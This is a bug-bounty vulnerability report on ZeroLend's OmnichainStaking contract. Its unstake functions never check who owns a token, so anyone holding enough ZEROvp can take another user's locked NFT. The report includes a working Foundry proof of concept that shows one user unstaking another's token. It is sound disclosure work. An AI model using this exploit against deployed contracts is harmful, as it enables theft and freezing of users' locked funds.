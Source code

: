 
# OmnichainStaking.sol:unstakeLP and OmnichainStaking.sol:unstakeToken allows anyone to unstake any token provided they own enough ZEROvp

Submitted on Fri Mar 08 2024 01:52:20 GMT-0400 (Atlantic Standard Time) by @g10v1 for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #29135

Report type: Smart Contract

Target: https://github.com/zerolend/governance

Impacts:
- Temporary freezing of funds for at least 1 hour
- Direct theft of any user NFTs, whether at-rest or in-motion, other than unclaimed royalties
- Permanent freezing of funds

## Description
## Brief/Intro
The unstakeLP and the unstakeToken functions at the OmnichainStaking contracts allow a user to burn ZEROvp tokens in order to get back user-defined tokenIds. This enables malicious parties to unstake tokens they don't rightfully own.

## Vulnerability Details
If we take a look at both unstaking functions, there are no checks to ensure the transaction caller has any right to that token id, rather the functions check if the caller owns enough ZEROvp token to be burnt. 

```solidity
function unstakeLP(uint256 tokenId) external {
        _burn(msg.sender, lpPower[tokenId] * 4);
        lpLocker.safeTransferFrom(address(this), msg.sender, tokenId);
    }

    function unstakeToken(uint256 tokenId) external {
        _burn(msg.sender, tokenPower[tokenId]);
        tokenLocker.safeTransferFrom(address(this), msg.sender, tokenId);
    }
```
This is not necessarily an issue if taken only at the OmnichainStaking contract context.
However, considering different NFTs have different lock expiries at both the LockerToken and the LockerLP contracts, malicious parties can unstake token ids to benefit in different forms, as shown at the impact section.

## Impact Details
Users can receive tokens before their lock expiry ends by unstaking ERC-721 tokens that have earlier expiry without the authorization of their rightful owners. This leads to the freezing of user funds that can be never-ending as other people can claim before the rightful owner.
## References
unstakeLP and unstakeToken functions at OmnichainStaking.sol: https://github.com/zerolend/governance/blob/main/contracts/locker/OmnichainStaking.sol#L76C5-L84C6

votingPowerOf and calculatePower functions at BaseLocker.sol:
https://github.com/zerolend/governance/blob/main/contracts/locker/BaseLocker.sol#L103C5-L116C6

        
## Proof of concept
## Proof of concept
Paste the following code snippet inside the test folder:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {console} from "../../lib/forge-std/src/console.sol";
import {StdInvariant} from "../../lib/forge-std/src/StdInvariant.sol";
import {LockerLP} from "../../locker/LockerLP.sol";
import {LockerToken} from "../../locker/LockerToken.sol";
import {OmnichainStaking} from "../../locker/OmnichainStaking.sol";
import {Test} from "../../lib/forge-std/src/Test.sol";
import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract MintableERC20 is ERC20 {
    address public owner;

    constructor(string memory name, string memory symbol) ERC20(name, symbol) {
        owner = msg.sender;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "MintableERC20: caller is not the owner");
        _;
    }

    function mint(address to, uint256 amount) public onlyOwner {
        _mint(to, amount);
    }
}

contract ZeroLendTest is StdInvariant, Test {

    LockerLP lockerLP;
    LockerToken lockerToken;
    OmnichainStaking omnichainStaking;
    MintableERC20  arbitraryToken;
    address user = makeAddr("user");
    address alice = makeAddr("alice");
    address bob = makeAddr("bob");
    address public configurator = makeAddr("configurator");
    uint256 internal WEEK;
    uint256 internal MAXTIME;

    function setUp() public {
        vm.prank(configurator);
        arbitraryToken = new MintableERC20("Arbitrary Token", "ATKN");
        vm.prank(configurator);
        arbitraryToken.mint(user, 1 ether);
        vm.prank(configurator);
        arbitraryToken.mint(alice, 1 ether);
        vm.prank(configurator);
        arbitraryToken.mint(bob, 1 ether);


        vm.prank(configurator);
        lockerLP = new LockerLP();

        lockerLP.init(
            address(arbitraryToken),
            // staking address
            address(0x1000),
            // stakingBonus
            address(0x1001)
        );

        lockerToken = new LockerToken();
        lockerToken.init(
            address(arbitraryToken),
            // staking address
            address(0x1000),
            // stakingBonus
            address(0x1001)
        );

        omnichainStaking = new OmnichainStaking();
        omnichainStaking.init(
            // LZ endpoint
            address(0x1002),
            // tokenLocker
            address(lockerToken),
            // lpLocker
            address(lockerLP)
        );

        WEEK = 1 weeks;
        MAXTIME = 365 * 86400;

    }

    function test_poc1() public {

        vm.prank(alice);
        arbitraryToken.approve(address(lockerLP), 1 ether);
        vm.prank(bob);
        arbitraryToken.approve(address(lockerLP), 1 ether);

        uint256 unlockTime0 = ((block.timestamp + MAXTIME) / WEEK) * WEEK - 100; // Locktime is rounded down to weeks
        vm.prank(alice);
        lockerLP.createLock(0.5 ether, unlockTime0, false);

        // pass 2 weeks
        vm.warp(block.timestamp + 2 * WEEK);

        uint256 unlockTime1 = unlockTime0  + 1 * WEEK; // Locktime is rounded down to weeks
        vm.prank(bob);
        lockerLP.createLock(0.5 ether, unlockTime1, false);

        // transfer both tokens to the omnichainStaking contract
        vm.prank(alice);
        lockerLP.safeTransferFrom(alice, address(omnichainStaking), 1);

        vm.prank(bob);
        lockerLP.safeTransferFrom(bob, address(omnichainStaking), 2);

        // get the lock 1 expiry
        (, uint256 end,,) = lockerLP.locked(1);

        // travel to the expiry period + 1 day
        vm.warp(end + 1 days);

        require(end < block.timestamp);

        // bob will unstake alice's token and be able to withdraw the token at the lockerLp contract.
        vm.prank(bob);
        omnichainStaking.unstakeLP(1);

        // alice will try to unstake her token and fail
        vm.prank(alice);
        vm.expectRevert();
        omnichainStaking.unstakeLP(1);

        // alice will end be able to unstake bob's token, but notice how it is still locked at the lockerLp contract
        (,end,,) = lockerLP.locked(2);
        require(end > block.timestamp);


       }

}
```

Run the test with the following command:
```shell
forge test --match-test test_poc1 -vvv
```